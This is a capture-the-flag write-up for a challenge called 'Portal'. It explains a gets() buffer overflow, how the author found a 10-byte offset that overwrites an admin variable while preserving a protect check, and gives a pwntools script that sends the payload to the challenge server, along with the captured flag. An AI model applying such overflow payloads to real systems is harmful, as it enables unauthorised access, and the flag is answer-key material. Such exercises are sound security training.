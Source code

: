 ### Portal

Given chal.c

`gets()` means this is probably a buffer overflow
However, there is simple protection used in this case, cannot go overboard on overflowing

The approach is pretty nooby, since I forgot how to do buffer overflow
printf the protect and admin values, try lengths of input until the values change
Then, retain value of protect and change admin

Offset is 10, next byte should be `\0`, then `A` then any byte other than 0
Make sure the 10 filler is not A, since chal.c checks for that
I used username but password may also work, for this I sent nothing to password

created simple pwntools program pwned.py

```
from pwn import *

offset = 10
host = "chals.secedu.site"
port = 5000

elf = ELF("./chal")
# p = elf.process()
p = remote(host, port)

payload = b'B' * offset + b'\0' + b'A' + b'1'

log.info(p.recv())
p.sendline(payload)
log.info(p.recv())
p.sendline(b'')
log.success(p.recv())
```

Got flag **SECEDU{por74l_to_n0wh3r3}**